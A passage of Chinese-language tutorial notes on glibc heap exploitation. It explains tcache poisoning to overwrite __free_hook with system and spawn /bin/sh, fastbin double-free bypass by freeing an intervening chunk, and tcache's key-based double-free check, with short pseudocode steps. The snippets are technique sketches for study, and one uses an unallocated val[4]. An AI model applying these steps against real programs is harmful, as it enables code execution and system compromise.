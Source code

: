 #### 信息修改

如果我们可以任意修改一个 chunk 的信息，我们就可以控制其中的 fd、bk 等指针。

```plain
gef > heap bins
```

```python
val[0] = malloc(0x18)
val[1] = malloc(0x18)
free(val[1])                 # tcache[0] = val[1], count[0] = 1
free(val[0])                 # tcache[0] = val[0] -> val[1], count[0] = 2
edit(val[1], __free_hook)    # tcache[0] = val[0] -> __free_hook
val[2] = malloc(0x18)        # tcache[0] = __free_hook, val[2] = val[0]
val[3] = malloc(0x18)        # tcache[0] = NULL, val[3] = __free_hook
edit(val[3], p64(system))    # __free_hook = system
edit(val[4], "/bin/sh\x00")
free(val[4])                 # free(val[4]) = system(val[4]) = system("/bin/sh\x00")
```

### fastbin Double Free 的应用

glibc 对于 fastbin 有一些检查。

```cpp
if (__builtin_expect (old == p, 0))
	malloc_printerr ("double free or corruption (fasttop)");
```

即当前要 free 的 chunk 不能和 fastbin 的头 chunk 相同。

但是既然如此，那么在 free 同一个 chunk 两次的过程之间，free 一个其它 chunk 不就可以了？

```python
free(val[0])       # fastbinY[0] -(fd)-> val[0]
free(val[1])       # fastbinY[0] -(fd)-> val[0] -(fd)-> val[1]
free(val[0])       # fastbinY[0] -(fd)-> val[0] -(fd)-> val[1] -(fd)-> val[0] 成环啦！
val[0] = malloc()  # fastbinY[0] -(fd)-> val[1] -(fd)-> val[0] -(fd)-> val[1] 环移了个位！
write(val[0], ...) # fastbinY[0] -(fd)-> val[1] -(fd)-> val[0] -(fd)-> EVIL FUNCTION
```

### tcache Double Free 的应用

tcache 加点的时候全部加到速度上去了，在 glibc 2.27 和之前，安全性的相关检查很少。

但是在这之后，tcache 添加了一个检测逻辑：

```cpp
typedef struct tcache_entry
{
	struct tcache_entry *next;
	/* This field exists to detect double frees. */
	struct tcache_perthread_struct *key;
} tcache_entry;
```

在某一个 chunk 被 free，放入 tcache bin 中时，其 key 成员会被置为 tcache_perthread_struct 的地址。如果一个 chunk 被 free 的时候，检查到其 key 正好是 tcache_perthread_struct 的地址，且该 chunk 在 tcache bin 的链表中，那么就会被发现 double free，然后程序就没了。
